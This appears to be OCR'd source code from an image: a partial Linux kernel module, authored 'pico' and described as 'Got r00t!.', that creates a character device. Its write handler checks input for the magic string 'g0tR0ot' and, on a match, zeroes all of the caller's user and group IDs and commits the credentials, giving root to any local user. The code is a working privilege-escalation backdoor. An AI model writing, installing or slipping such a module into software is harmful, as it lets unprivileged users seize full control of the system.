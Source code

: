```c
static ssize_t root_read  (struct file *f, char *buf, size_t len, loff_t *off);
static ssize_t root_write (struct file *f, const char __user *buf, size_t len, loff_t *off);

// Module info
MODULE_LICENSE("GPL");
MODULE_AUTHOR("pico");
MODULE_DESCRIPTION("Got r00t!.");
MODULE_VERSION("0.1");

static int            majorNumber;
static struct class*  rootcharClass  = NULL;
static struct device* rootcharDevice = NULL;

static struct file_operations fops =
{
  .owner = THIS_MODULE,
  .open = root_open,
  .read = root_read,
  .write = root_write,
};

static int
root_open (struct inode *inode, struct file *f)
{
   return 0;
}

static ssize_t
root_read (struct file *f, char *buf, size_t len, loff_t *off)
{
  return len;
}

static ssize_t
root_write (struct file *f, const char __user *buf, size_t len, loff_t *off)
{
  char   *data;
  char   magic[] = "g0tR0ot";

  struct cred *new_cred;

  data = (char *) kmalloc (len + 1, GFP_KERNEL);

  if (data)
    {
      copy_from_user (data, buf, len);
        if (memcmp(data, magic, 7) == 0)
   {
     if ((new_cred = prepare_creds ()) == NULL)
       {
  return 0;
       }
     V(new_cred->uid) = V(new_cred->gid) =  0;
     V(new_cred->euid) = V(new_cred->egid) = 0;
     V(new_cred->suid) = V(new_cred->sgid) = 0;
     V(new_cred->fsuid) = V(new_cred->fsgid) = 0;
     commit_creds (new_cred);
   }
        kfree(data);
      }

    return len;
}
```